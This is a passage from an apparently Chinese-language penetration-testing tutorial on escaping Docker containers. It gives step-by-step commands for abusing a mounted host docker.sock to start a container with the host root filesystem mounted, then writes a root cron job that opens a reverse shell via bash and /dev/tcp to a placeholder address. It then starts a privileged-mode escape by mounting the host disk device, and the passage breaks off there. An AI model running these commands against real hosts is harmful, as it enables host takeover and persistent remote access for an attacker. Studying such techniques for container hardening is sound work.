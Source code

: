     echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-updates main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-proposed main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-backports main restricted universe multiverse" >> /etc/apt/sources.list
    apt-get update
    apt-get install -y docker.io vim

    echo "nameserver 114.114.114.114" > /etc/resolv.conf
    ```

4. 查看宿主机 docker 信息
    ```bash
    docker -H unix:///host/var/run/docker.sock info
    ```

5. 运行一个新容器并挂载宿主机根路径
    ```bash
    docker -H unix:///host/var/run/docker.sock run -v /:/aa -it ubuntu:14.04 /bin/bash
    ```

6. 在新容器 /aa 路径下完成对宿主机资源的访问,写入计划任务文件，反弹 shell
    ```bash
    cd /aa
    ls
    echo '* * * * * bash -i >& /dev/tcp/x.x.x.x/9988 0>&1' >> /aa/var/spool/cron/root
    ```
    成功接收到宿主机反弹的 shell

**privileged 特权模式**

- 概述

    特权模式于版本 0.6 时被引入 Docker，允许容器内的 root 拥有外部物理机 root 权限，而此前容器内 root 用户仅拥有外部物理机普通用户权限。

    使用特权模式启动容器，可以获取大量设备文件访问权限。因为当管理员执行 `docker run --privileged` 时，Docker 容器将被允许访问主机上的所有设备，并可以执行 mount 命令进行挂载。

    当控制使用特权模式启动的容器时，docker 管理员可通过 mount 命令将外部宿主机磁盘设备挂载进容器内部，获取对整个宿主机的文件读写权限，此外还可以通过写入计划任务等方式在宿主机执行命令。

1. 首先以特权模式运行一个 docker 容器
    ```bash
    docker run -it --privileged=true ubuntu /bin/bash
    ```

2. 查看磁盘文件
    ```bash
    fdisk -l
    ```

3. dm-0 存在于 `/dev` 目录下,新建一个目录,将 `/dev/dm-0` 挂载至新建的目录
    ```bash
    mkdir /aaa
    mount /dev/dm-0 /aaa
    ```

